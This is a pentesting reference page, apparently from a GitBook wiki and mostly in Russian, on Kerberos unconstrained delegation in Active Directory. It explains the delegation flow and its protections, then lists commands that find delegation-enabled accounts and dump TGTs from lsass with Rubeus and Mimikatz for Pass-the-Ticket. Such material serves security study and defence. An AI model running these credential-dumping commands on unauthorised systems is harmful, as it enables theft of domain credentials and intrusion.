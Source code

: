 # Unconstrained delegation

**all objects that have an `SPN` can be configured for delegation**

### Delegation process

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Разбор по шагам:

1. Подразумевается, что учетная запись User не является чувствительной к делегированию и не состоит в группе защищенных пользователей (флаг NOT\_DELEGATED не активен).
2. Сначала User, как уже было рассмотрено ранее, получает TGT в результате обмена [KRB AS REQ](https://ardent101.github.io/posts/kerberos\_delegation/posts/kerberos\_theory/#krb\_as\_req-%D1%81-%D0%BF%D1%80%D0%B5%D0%B4%D0%B2%D0%B0%D1%80%D0%B8%D1%82%D0%B5%D0%BB%D1%8C%D0%BD%D0%BE%D0%B9-%D0%B0%D1%83%D1%82%D0%B5%D0%BD%D1%82%D0%B8%D1%84%D0%B8%D0%BA%D0%B0%D1%86%D0%B8%D0%B5%D0%B9) и [KRB AS REP](https://ardent101.github.io/posts/kerberos\_theory/#krb\_as\_rep-ad) сообщениями.
3. Далее User запрашивает TGS-билет для доступа к Сервису А ([KRB TGS REQ](https://ardent101.github.io/posts/kerberos\_theory/#krb\_tgs\_req-ad)).
4. KDC видит, что у Сервиса А установлен флаг “TRUSTED\_FOR\_DELEGATION”, разрешающий неограниченную делегацию, и поэтому в ответ User KDC отправляет TGS-билет с флагом ok-as-delegate.
5. Получив TGS-билет, User обнаруживает флаг ok-as-delegate и понимает, что ему необходимо передать свои учетные данные Сервису А. Для этого User снова обращается к KDC c просьбой выдать ему перенаправляемый (forwarded) TGT.
6. KDC выполняет необходимые проверки и отправляет User TGT с правом передачи.
7. User обращается к Сервису А с немного расширенным [KRB AP REQ](https://ardent101.github.io/posts/kerberos\_theory/#krb\_ap\_req) сообщением. Теперь в аутентификаторе содержится не только метка времени и принципал клиента, но и перенаправляемый (forwarded) TGT вместе с сессионным ключом для общения с KDC.
8. Сервис А извлекает сессионный ключ для общения с User из TGS-билета, расшифровывает аутентификатор, выполняет проверки и сохраняет Forwarded TGT для User вместе с соответствующим указанному билету сессионным ключом.
9. С использованием полученных аутентификационных данных Сервис А получает TGS-билет к Сервису Б от имени User.



У учетной записи пользователя может быть установлен флаг NOT\_DELEGATED в атрибуте UserAccountControl, запрещающий олицетворение указанного пользователя.

По умолчанию флаг NOT\_DELEGATED отключен и устанавливается либо при активации опции “Account is sensitive and cannot be delegated”, либо при добавлении пользователя в группу “Protected Users”.

> Примечание: среди прочего члены группы “Protected Users” также не могут аутентифицироваться по NTLM, использовать DES или RC4 шифрование в Kerberos, обновлять TGT по истечении 4 часов и кэшировать учетные данные для входа в домен.

Чтобы учетная запись получила право на неограниченное делегирование в атрибуте _UserAccountControl_ указанной учетной записи необходимо установить флаг _TRUSTED\_FOR\_DELEGATION_, которому соответствует целочисленное значение 524288. По умолчанию указанный флаг активен только у машинных учетных записей контроллеров домена.

Для изменения значения флага необходимо наличие привилегии _SeEnableDelegationPrivilege_, которой изначально обладают только учетные записи с правами уровня администратора домена.



### Abuse

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>



### Search accounts with unconstrained delegation

**Вариант 1 - с помощью PowerShell модуля ADSI для работы с Active Directory**

Поиск среди всех учетных записей

```sh
([adsisearcher]'(userAccountControl:1.2.840.113556.1.4.803:=524288)').FindAll() 
```

**Вариант 2 - с помощью** [**FindDelegation.py**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/findDelegation.py)**, входящего в Impacket**

Поиск среди всех учетных записей

```powershell
findDelegation.py -dc-ip $DC_IP $Domain_fqdn/$Username:$Password
```

**Вариант 3 - PowerView**

Поиск среди учетных записей класса компьютер

```powershell
Get-DomainComputer -Unconstrained
```

Поиск среди пользовательских учетных записей

```powershell
Get-DomainUser -TrustedToAuth
```

> Примечание: существует [py-аналог](https://github.com/the-useless-one/pywerview) PowerView для Linux

**Вариант 4 - Bloodhound**

Поиск среди учетных записей класса компьютер:

```powershell
match (c:Computer {unconstraineddelegation:true}) return c.name 
```

Поиск среди пользовательских учетных записей:

```powershell
match (u:User {unconstraineddelegation:true}) return u.name
```

**Вариант 5 - Ldapdomaindump после Relay**

Все приведенные выше способы требовали наличия прав пользователя, но также можно провести Relay атаку по протоколу LDAP на контроллер домена с последующим использованием Ldapdomaindump:

```sh
grep TRUSTED_FOR_DELEGATION domain_computers.grep
grep TRUSTED_FOR_DELEGATION domain_users.grep
```



Получив административный доступ к серверу с сервисом, обладающим неограниченным делегированием, атакующий может извлечь TGT учетных записей, проходивших аутентификацию к указанному сервису, из памяти процесса lsass.exe сервера.

Осуществить выгрузку можно с помощью Rubeus:

```powershell
Rubeus.exe dump /service:krbtgt /nowrap
```

Или при помощи Mimikatz:

```powershell
mimikatz # sekurlsa::tickets /export
```

Полученные TGT можно использовать для проведения атаки Pass-the-Ticket.
